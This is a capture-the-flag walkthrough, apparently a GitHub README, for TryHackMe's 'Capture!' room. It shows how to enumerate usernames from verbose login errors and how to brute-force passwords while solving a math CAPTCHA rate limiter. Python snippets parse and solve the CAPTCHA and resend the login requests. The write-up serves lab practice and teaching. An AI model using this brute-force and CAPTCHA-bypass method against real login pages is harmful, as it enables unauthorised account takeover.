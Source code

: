 # Capture!

![Secure Sola Coders Logo](./secure-sola-coders.png "Secure Sola Coders Logo")

## Summary

[Capture!](https://tryhackme.com/room/capture "Capture Room On TryHackMe") is a CTF hosted on the [TryHackMe website](https://tryhackme.com/ "TryHackMe Website") and created by the user [Toxicat0r](https://tryhackme.com/p/toxicat0r "Toxicat0r's TryHackMe Profile"). The room contains a single flag that can be found through bypassing the target web pages authentication mechanism via bruteforcing credentials. The major hurdle in attempting to bypass the login arises from [rate-limiting](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting") our requests. After about 3 attempts, a CAPTCHA appears that involves solving simple mathematical expressions.

**Description Used In Room:**

> Can you bypass the login form?

> SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

## Contents

* [Information Disclosure](#information-disclosure "Jump To Information Disclosure Section")
* [The Obstacle](#the-obstacle "Jump To The Obstacle")
* [A Possible Solution](#a-possible-solution "Jump To A Possible Solution")
* [Helpful Tools](#helpful-tools "Jump To Helpful Tools")
* [Code Examples](#code-examples "Jump To Code Examples")
* [Conclusion](#conclusion "Jump To Conclusion")

## Information Disclosure

If we visit the target website we'll be redirected to a login page.

![Login Page](./login-form.png "Login Page")

Messing around with the login form by supplying any random credentials, such as ```fakeperson:fakepassword```, we can easily see where the vulnerability lies. Overly verbose error messages. This vulnerability is known as [Information Disclosure](https://portswigger.net/web-security/information-disclosure "PortSwigger Article On Information Disclosure") and in this case can be exploited to enumerate usernames since the message specifically tells us whether a user exists.

![Username Does Not Exist](./username-error.png "Username Does Not Exist")

[Back To Top](#capture "Jump To Top")

---

## The Obstacle

When we try to enumerate the usernames we'll run into a problem. Our attempts are [rate-limited](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting"). After several requests we'll need to pass a CAPTCHA that involves solving a mathematical problem.

![Too Many Logins Error](./too-many-logins.png "Too Many Logins Error")

[Back To Top](#capture "Jump To Top")

---

## A Possible Solution

A possible solution is to create a Python program to complete the below steps:

1. Load usernames and passwords into memory.
2. Iterate usernames.
3. For each username craft an HTTP POST request with username and a bad password.
4. Check if CAPTCHA has been triggered by parsing the HTML returned by the POST request for the following error message: ```Captcha enabled```.
5. If CAPTCHA is present grab the mathematical expression.
6. Strip the mathematical expression down to its two operands and operator.
7. Solve the expression.
8. Craft a new HTTP POST request with the same username and password but this time add a CAPTCHA parameter that contains the result from step 7.
9. Check the response HTML for the string ```The user &#39;[username goes here, remove brackets]&#39; does not exist```
10. If the username error appears in the HTML, move on to the next user and start the steps again. If the username error **does not** appear, a valid user has been found.

After a username has been found, the same steps from above can be used to enumerate passwords. Just be sure to check for the password error message and not the username error message (slightly modify steps 2, 3, 9, 10).

[Back To Top](#capture "Jump To Top")

---

## Helpful Tools

Here are some helpful Python libraries that will help you solve the steps above.

* [re](https://www.w3schools.com/python/python_regex.asp "W3 Schools Article On Python Regex") - RegEx library to help pulling the mathematical expression out of the form.
* [requests]("") HTTP Requests library to help with sending POST requests and sending POST body data.
* [BeautifulSoup](https://pypi.org/project/beautifulsoup4/ "Beautiful Soup Documentation") - HTML parsing library to help pull the form out of every HTML response and parse through it (optional).

[Back To Top](#capture "Jump To Top")

---

## Code Examples

Sending POST Request:

```python
# Create POST Body Data
data = {'username': username_here, 'password': password_here}

# Send POST Request
response = requests.post(url_here, data=data)
```

Getting HTML Response From POST Request:

```python
# Send POST Request
response = requests.post(url_here, data=data)

# Grab HTML From Response
html = response.text
```

Looking For Error Messages:

**NOTE -** Using the error messages taken directly from the webpage won't work, you'll need to use the error messages as they appear in the HTML. Instead of the ```'``` character use the HTML encoding of the same character.

```python
# Look For CAPTCHA Error In HTML
if "Captcha enabled" in html:
    # Do Something

# Look For Valid Username By Checking If Username Error Does NOT Exist In HTML
if f"The user &#39;{username}&#39; does not exist" not in html:
    # Do Something

# Look For Valid Password By Checking If Password Error Does NOT Exist In HTML
if f"Invalid password for user &#39;{username}&#39;" not in html:
    # Do Something
```

Grabbing Form In HTML:

**NOTE -** The mathematical problem for the CAPTCHA is a child of the ```<form>``` element. It is **not** in it's own pair of tags.

```python
# Use BeautifulSoup Library To Create Parsable HTML Object
soup = BeautifulSoup(html, 'html.parser')

# Search The Soup Object For The Form
form_element = soup.find('form')

# Return Only The Text Within The Form, No HTML Tags.
text_content = form_element.get_text(strip=True)
```

Grabbing Expression In Form With Regex:

**NOTE -** ```r'\d+\s[+\-*]\s\d+\s=\s\?'``` will match the following format:

* Number, space, ```+``` ```-``` or ```*```, space, number, ```=```, space, ```?``` 

```python
# Get Matching Result Object From Regex On HTML Form That Was Stripped Of Tags In The Last Code Example
match_result = re.search(r'\d+\s[+\-*]\s\d+\s=\s\?', text_content)

# Grab The Expression From The Match Result Object
expression = match_result.group()
```

Solving The Expression:

```python
# Split The Expression Returned By The RegEx Into Pieces
expression_pieces = expression.split()

# Grab First Number
operand_1 = expression_pieces[0]

# Grab Operator
operator = expression_pieces[1]

# Grab Second Number
operand_2 = expression_pieces[2]

# Solve Expression
if operator == '+':
    result = int(operand_1) + int(operand_2)
elif operator == '*':
    result = int(operand_1) * int(operand_2)
elif operator == '-':
    result = int(operand_1) - int(operand_2)

# Return Result So It Can Be Appended To The Second POST Requests CAPTCHA Parameter
return result
```

Resend Request With New Parameter And Solved CAPTCHA:

```python
# Append New Parameter With Solved CAPTCHA As Value In Pre-Exisiting Data Variable
data['captcha'] = result

# Resend Request With Updated POST Body Data
response = requests.post(url_here, data=data)
```

[Back To Top](#capture "Jump To Top")

---

## Conclusion

To successfully solve this CTF you will need to create a custom script capable of solving the CAPTCHA every time you make a request. I added my own [Python script to solve this CTF](./capture.py "My Solution To This CTF") within this folder, feel free to look at it if you get stuck. Keep in mind it is a quick solution so the code used is not the best way to do things, nor is it the cleanest code. It also makes assumptions in some parts with little or no error handling, but it does work in finding both the username and password while solving the CAPTCHA.

[Back To Top](#capture "Jump To Top")
